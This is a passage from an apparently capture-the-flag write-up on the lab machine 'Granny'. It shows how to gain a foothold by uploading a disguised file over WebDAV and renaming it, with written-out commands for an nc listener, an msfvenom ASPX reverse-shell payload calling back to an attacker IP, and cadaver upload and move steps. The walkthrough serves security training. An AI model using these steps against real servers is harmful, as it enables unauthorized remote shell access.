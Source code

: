 This scan reveals that we can execute `.txt` and `.html` files, and that we can
upload various file types.

We know that the website is using ASP.NET, so it might be a great way to obtain
a foothold. Unfortunately, `.aspx` doesn't belong to the list of file types
we're allowed to upload.

However, the `http-webdav-scan` script revealed [previously](#scripts) that the
`MOVE` WebDAV method is allowed, so in theory nothing prevents us from uploading
an innocuous `.txt` file and move it to a `.aspx` file!

## Foothold (File upload)

Let's test this idea.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll use `msfvenom` to generate a `windows/shell_reverse_tcp`
payload.

```sh
❯ msfvenom -p "windows/shell_reverse_tcp" LHOST="10.10.14.10" LPORT="9001" -f "aspx" -o "/workspace/revshell.txt"
```

### Exploitation

I'll use `cadaever` to interact more efficiently with Granny's WebDAV server.

```sh
❯ cadaver "10.10.10.15"
```

```
dav:/>
```

Let's begin by uploading our `revshell.txt`.

```sh
dav:/> put "/workspace/revshell.txt"
```

```
Uploading /workspace/revshell.txt to `/revshell.txt':
Progress: [=============================>] 100.0% of 2744 bytes succeeded.
```

Okay, it worked. Now let's move `revshell.txt` to `revshell.aspx`.

```sh
dav:/> mv "revshell.txt" "revshell.aspx"
```
